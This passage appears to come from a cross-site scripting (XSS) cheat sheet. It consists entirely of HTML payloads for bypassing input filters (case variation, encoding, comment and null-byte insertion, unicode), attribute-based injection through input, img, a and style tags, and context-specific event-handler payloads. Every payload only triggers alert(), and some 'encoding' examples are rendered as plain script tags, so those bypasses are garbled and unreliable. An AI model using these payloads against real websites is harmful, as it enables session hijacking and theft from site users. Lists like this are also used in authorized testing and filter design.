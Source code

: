 ### Filter Bypass Techniques
```html
<!-- Case variation -->
<ScRiPt>alert('XSS')</ScRiPt>
<SCRIPT>alert('XSS')</SCRIPT>

<!-- Encoding bypass -->
<script>alert('XSS')</script>
<script>alert(&#39;XSS&#39;)</script>
<script>alert(String.fromCharCode(88,83,83))</script>

<!-- Comment insertion -->
<scr<!--comment-->ipt>alert('XSS')</scr<!--comment-->ipt>
<scr/*comment*/ipt>alert('XSS')</scr/*comment*/ipt>

<!-- Null byte insertion -->
<script>alert('XSS')</script>
<scri%00pt>alert('XSS')</scri%00pt>

<!-- Unicode bypass -->
<script>alert('XSS')</script>
<script>alert('\u0058\u0053\u0053')</script>
```

### Attribute-Based XSS
```html
<!-- Input field XSS -->
<input value=""><script>alert('XSS')</script>">
<input value='' onmouseover='alert("XSS")'>

<!-- Image attribute XSS -->
<img src="x" alt=""><script>alert('XSS')</script>">
<img src="javascript:alert('XSS')">

<!-- Link attribute XSS -->
<a href="javascript:alert('XSS')">Click</a>
<a href="data:text/html,<script>alert('XSS')</script>">Click</a>

<!-- Style attribute XSS -->
<div style="background:url('javascript:alert(1)')">
<div style="expression(alert('XSS'))">
```

## 🛠️ Context-Specific Payloads

### HTML Context
```html
<!-- Basic HTML injection -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

<!-- HTML5 specific -->
<details open ontoggle=alert('XSS')>
<marquee onstart=alert('XSS')>
<video><source onerror="alert('XSS')">
```
